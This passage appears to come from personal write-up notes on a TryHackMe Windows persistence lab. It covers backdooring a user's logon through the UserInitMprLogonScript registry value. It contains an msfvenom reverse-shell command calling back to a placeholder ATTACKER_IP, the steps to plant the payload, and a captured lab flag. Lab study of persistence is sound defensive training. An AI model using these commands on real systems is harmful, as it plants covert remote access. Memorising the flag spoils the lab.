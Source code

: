 ![Pasted image 20250516113622.png](../../../IMAGES/Pasted%20image%2020250516113622.png)

```
C:\flags>.\flag12.exe
THM{I_INSIST_GO_FIRST}
```


## Logon scripts

One of the things`userinit.exe` does while loading your user profile is to check for an environment variable called`UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

Let's first create a reverse shell to use for this technique:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use`C:\Windows`:

```shell-session
C:\> move revshell.exe C:\Windows
```

To create an environment variable for a user, you can go to its`HKCU\Environment` in the registry. We will use the`UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in:

![Backdoored env](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9ce41ee1fc282b8dcacd757b23417b12.png)

Notice that this registry key has no equivalent in`HKLM`, making your backdoor apply to the current user only.

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Using your newly obtained shell, execute`C:\flags\flag13.exe` to get a flag

Once we did all steps, we get a shell:
